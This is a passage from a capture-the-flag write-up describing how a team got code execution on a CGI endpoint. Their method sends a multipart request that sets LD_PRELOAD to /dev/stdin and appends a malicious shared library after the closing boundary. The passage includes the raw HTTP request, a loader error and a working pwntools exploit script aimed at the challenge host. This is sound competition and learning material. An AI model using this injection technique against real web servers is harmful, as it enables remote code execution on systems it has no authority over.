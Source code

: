 We couldn't fix it after working on it for like 30mins. Apparently linker was failing to map file descriptor to memory for a reason we don't know. Maybe because tmpfs was acting weird?

We then tried using python environment variables but had no luck. 

> Appreantly some teams could actually use them! POC by thegrandpew. <br>
> ![POC](https://i.imgur.com/GalTxDx.png) <br>

While spraying cgi tmp files, We thought that we can either send data in stdin or add environment variables, Not both of them at once. But it turned out we could! To do that, First close the multi-part request with sending `${boundry}--` and then send the shared lib! this way evillib will be passed to cgi program as stdin and we can also set `LD_PRELOAD` to stdin. 

```http
POST /cgi-bin/date HTTP/1.1
Host: localhost:9000
User-Agent: curl/7.68.0
Accept: */*
Content-Length: {156+len(evillib)}
Content-Type: multipart/form-data; boundary=------------------------d98448e4e46e658c

--------------------------d98448e4e46e658c
Content-Disposition: form-data; name="LD_PRELOAD"

/dev/stdin 
--------------------------d98448e4e46e658c--
evillib
```

```
object '/dev/stdin' from LD_PRELOAD cannot be preloaded (failed to map segment from shared object): ignored
```
 `/dev/stdin` is just a symlink to our tmp file when we are opening it, so it actually made no difference, Except that we don't have to spray anymore. 

Since we didn't have to spray anymore, we tried it on remote for fun and it worked lmao. remote's tmpfs was not acting weird! So spray would work too if we had tried it on remote.

```py
#!/usr/bin/env python3
from pwn import *
import time
import requests
import os

TARGET_HOST = "advancement.chal.perfect.blue"
TARGET_PORT = 80
# TARGET_HOST = "localhost"
# TARGET_PORT = 1337

lolld = open("./lol.so","rb").read()
p = remote(TARGET_HOST,TARGET_PORT)
p.send(f"""POST /cgi-bin/date HTTP/1.1
Host: localhost:9000
User-Agent: curl/7.68.0
Accept: */*
Content-Length: {156+len(lolld)}
Content-Type: multipart/form-data; boundary=------------------------d98448e4e46e658c

--------------------------d98448e4e46e658c
Content-Disposition: form-data; name="LD_PRELOAD"

/dev/stdin 
--------------------------d98448e4e46e658c--
""".replace('\n',"\r\n").encode()+lolld)
p.interactive()
```